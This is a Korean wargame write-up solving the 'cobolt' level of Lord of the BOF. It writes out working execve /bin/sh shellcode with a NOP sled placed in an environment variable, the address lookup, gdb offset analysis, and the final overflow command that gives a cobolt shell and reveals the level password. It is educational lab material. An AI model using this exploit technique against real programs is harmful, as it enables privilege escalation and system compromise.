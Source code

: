 # cobolt

```c
[gremlin@localhost gremlin]$ cat cobolt.c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - cobolt
        - small buffer
*/

int main(int argc, char *argv[])
{
    char buffer[16];
    if(argc < 2){
        printf("argv error\n");
        exit(0);
    }
    strcpy(buffer, argv[1]);
    printf("%s\n", buffer);
}
```

gremlin과 거의 유사한 문제이지만 buffer의 크기가 16bytes로 쉘코드를 올릴 수 없다. 

그래서 환경변수를 이용하거나 eggshell을 이용해 이 문제를 해결할 수 있는데 환경변수를 이용하도록 한다.

```bash
[gremlin@localhost gremlin]$ cp cobolt attackme
[gremlin@localhost gremlin]$ ls
attackme  cobolt  cobolt.c
```

역시 먼저 gdb로 공격하기 위해 attackme라는 복사본을 만든다.

환경 변수에 쉘코드를 올리고 

```bash
[gremlin@localhost gremlin]$ export shellcode=`python -c 'print "\x90"*512+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`
```

*NOP을 추가하는 이유는 환경 변수의 주소가 프로세스마다 조금씩 변하는데 정확하게 집어내는 것보다 편하고 공격 확률을 높일 수 있는 방법이기 때문이다.

=> NOP을 추가하지 않고 해결하는 방법과 스택에서 환경 변수의 위치에 대한 정보를 좀 더 찾아봐야 한다.

env라는 명령어를 통해 제대로 입력됐는지 확인해본다.

```bash
[gremlin@localhost gremlin]$ env
LESSOPEN=|/usr/bin/lesspipe.sh %s
USERNAME=
HISTSIZE=1000
HOSTNAME=localhost.localdomain
LOGNAME=gremlin
REMOTEHOST=192.168.74.1
MAIL=/var/spool/mail/gremlin
shellcode=▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒1▒Ph//shh/bin▒▒PS▒▒°
                                                                                          ̀
TERM=xterm
HOSTTYPE=i386
PATH=/usr/local/bin:/bin:/usr/bin:/usr/X11R6/bin:/home/gremlin/bin
HOME=/home/gremlin
INPUTRC=/etc/inputrc
SHELL=/bin/bash
USER=gremlin
BASH_ENV=/home/gremlin/.bashrc
LANG=en_US
OSTYPE=Linux
SHLVL=1
LS_COLORS=no=00:fi=00:di=01;34:ln=01;36:pi=40;33:so=01;35:bd=40;33;01:cd=40;33;01:or=01;05;37;41:mi=01;05;37;41:ex=01;32:*.cmd=01;32:*.exe=01;32:*.com=01;32:*.btm=01;32:*.bat=01;32:*.sh=01;32:*.csh=01;32:*.tar=01;31:*.tgz=01;31:*.arj=01;31:*.taz=01;31:*.lzh=01;31:*.zip=01;31:*.z=01;31:*.Z=01;31:*.gz=01;31:*.bz2=01;31:*.bz=01;31:*.tz=01;31:*.rpm=01;31:*.cpio=01;31:*.jpg=01;35:*.gif=01;35:*.bmp=01;35:*.xbm=01;35:*.xpm=01;35:*.png=01;35:*.tif=01;35:
_=/usr/bin/env
```

중간에 shellcode라는 환경 변수가 있음을 확인할 수 있다.

이제 이 환경 변수의 주소를 구하고 입력값으로 넣어주면 된다.

주소를 구하는 코드를 새로 짜야하는데 getenv라는 함수를 이용하면 쉽게 구할 수 있다.

```bash
[gremlin@localhost gremlin]$ cat > addr.c
#include <stdio.h>

int main(){
        printf("%p\n",getenv("shellcode"));
}
```

컴파일 후 실행하여 주소값을 확인하면

```bash
[gremlin@localhost gremlin]$ gcc -o shell addr.c
[gremlin@localhost gremlin]$ ls
addr.c  attackme  cobolt  cobolt.c  shell
[gremlin@localhost gremlin]$ ./shell
0xbffffdcf
```

0xbffffdcf라는 주소가 나온다. 이 주소를 리틀엔디언 방식으로 전달해 입력으로 주면 되는데 어디다 줘야하는지 확이해야하므로 gdb로 attackme를 열어 위치를 확인해 본다.(buffer가 16이니까 sfp까지 20을 주면 되긴하다.)

```bash
[gremlin@localhost gremlin]$ gdb attackme
GNU gdb 19991004
Copyright 1998 Free Software Foundation, Inc.
GDB is free software, covered by the GNU General Public License, and you are
welcome to change it and/or distribute copies of it under certain conditions.
Type "show copying" to see the conditions.
There is absolutely no warranty for GDB.  Type "show warranty" for details.
This GDB was configured as "i386-redhat-linux"...
(gdb) set disassembly-flavor intel
(gdb) disas main
Dump of assembler code for function main:
0x8048430 <main>:       push   %ebp
0x8048431 <main+1>:     mov    %ebp,%esp
0x8048433 <main+3>:     sub    %esp,16
0x8048436 <main+6>:     cmp    DWORD PTR [%ebp+8],1
0x804843a <main+10>:    jg     0x8048453 <main+35>
0x804843c <main+12>:    push   0x80484d0
0x8048441 <main+17>:    call   0x8048350 <printf>
0x8048446 <main+22>:    add    %esp,4
0x8048449 <main+25>:    push   0
0x804844b <main+27>:    call   0x8048360 <exit>
0x8048450 <main+32>:    add    %esp,4
0x8048453 <main+35>:    mov    %eax,DWORD PTR [%ebp+12]
0x8048456 <main+38>:    add    %eax,4
0x8048459 <main+41>:    mov    %edx,DWORD PTR [%eax]
0x804845b <main+43>:    push   %edx
0x804845c <main+44>:    lea    %eax,[%ebp-16]
0x804845f <main+47>:    push   %eax
0x8048460 <main+48>:    call   0x8048370 <strcpy>
0x8048465 <main+53>:    add    %esp,8
0x8048468 <main+56>:    lea    %eax,[%ebp-16]
0x804846b <main+59>:    push   %eax
0x804846c <main+60>:    push   0x80484dc
0x8048471 <main+65>:    call   0x8048350 <printf>
0x8048476 <main+70>:    add    %esp,8
0x8048479 <main+73>:    leave
0x804847a <main+74>:    ret
0x804847b <main+75>:    nop
0x804847c <main+76>:    nop
0x804847d <main+77>:    nop
0x804847e <main+78>:    nop
0x804847f <main+79>:    nop
End of assembler dump.
```

main+44번쨰 줄을 보면 ebp-16이 나오는데 ebp에서 16만큼 떨어진 자리가 입력의 시작점이므로 sfp 4bytes를 더해 20bytes를 NOP으로 채워주고 환경 변수의 주소를 적어주면 해결된다.

```bash
[gremlin@localhost gremlin]$ ./cobolt `python -c 'print "\x90"*20+"\xcf\xfd\xff\xbf"'`
▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒
bash$ whoami
cobolt
bash$ my-pass
euid = 502
hacking exposed
```

cobolt의 password는 hacking exposed이다.